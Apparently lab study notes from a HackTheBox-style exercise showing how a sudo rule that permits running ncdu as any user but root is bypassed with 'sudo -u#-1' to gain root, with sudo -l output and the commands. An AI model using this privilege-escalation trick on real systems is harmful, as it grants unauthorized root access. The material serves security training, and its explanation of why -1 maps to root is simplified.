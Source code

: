 - Assume we have the following `sudo` configuration for our user:
```bash
htb-student@ubuntu:~$ sudo -l
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```
=> The current user can run the command `/bin/ncdu` as any user besides the root user.

- So if we run the following command:
```bash
sudo -u#0 /bin/ncdu
```
The system knows that the `id = 0` belongs to the root user so we get the following user:
```bash
htb-student@ubuntu:~$ sudo -u#0 /bin/ncdu
Sorry, user htb-student is not allowed to execute '/bin/ncdu' as root on ubuntu.
```

- We can bypass it by using `id = -1`, and since users cannot have negative IDs => it will default to `id = 0`, which is the `root` id, but this time it won't be detected by the system
```bash
sudo -u#-1 /bin/ncdu
```